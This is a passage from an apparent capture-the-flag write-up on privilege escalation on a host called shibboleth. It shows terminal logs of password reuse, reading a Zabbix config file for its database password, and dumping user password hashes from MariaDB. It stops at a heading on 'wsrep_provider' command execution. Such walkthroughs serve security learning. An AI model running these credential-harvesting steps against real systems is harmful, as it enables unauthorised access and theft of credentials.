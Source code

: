 
# Privesc

Get reverse shell as user "zabbix" and zabbix dashboard password reused for system user "ipmi-svc"
```bash
(remote) zabbix@shibboleth:/tmp$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
(remote) zabbix@shibboleth:/tmp$ su ipmi-svc
Password: 
ipmi-svc@shibboleth:/tmp$
```

There is a mysql server in the localhost
```bash
ipmi-svc@shibboleth:~$ ss -lntp | grep 127
LISTEN  0        869            127.0.0.1:3306           0.0.0.0:*
```

linpeas show zabbix config file is readable by "ipmi-svc"
```bash
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root ipmi-svc 22306 Oct 18 09:24 /etc/zabbix/zabbix_server.conf.dpkg-dist
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
```

Read through the config file found database password
```bash
ipmi-svc@shibboleth:~$ cat /etc/zabbix/zabbix_server.conf | grep -v '#' | grep -E 'DB*'

DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
```

## mysql 'wsrep_provider' OS Command Execution

Got some password hashes from "zabbix" database
```bash
MariaDB [zabbix]> select alias,passwd from users;
+---------------+--------------------------------------------------------------+
| alias         | passwd                                                       |
+---------------+--------------------------------------------------------------+
| Admin         | $2y$10$L9tjKByfruByB.BaTQJz/epcbDQta4uRM/KySxSZTwZkMGuKTPPT2 |
| guest         | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |
| Administrator | $2y$10$FhkN5OCLQjs3d6C.KtQgdeCc485jKBWPW4igFVEgtIP3jneaN7GQe |
+---------------+--------------------------------------------------------------+
```

"Administrator" user password we already have and other 2 hashes are not crackable.

Viewing the database version 
```bash
MariaDB [(none)]> SELECT VERSION();
+----------------------------------+
| VERSION()                        |
+----------------------------------+
| 10.3.25-MariaDB-0ubuntu0.20.04.1 |
+----------------------------------+
1 row in set (0.000 sec)
```
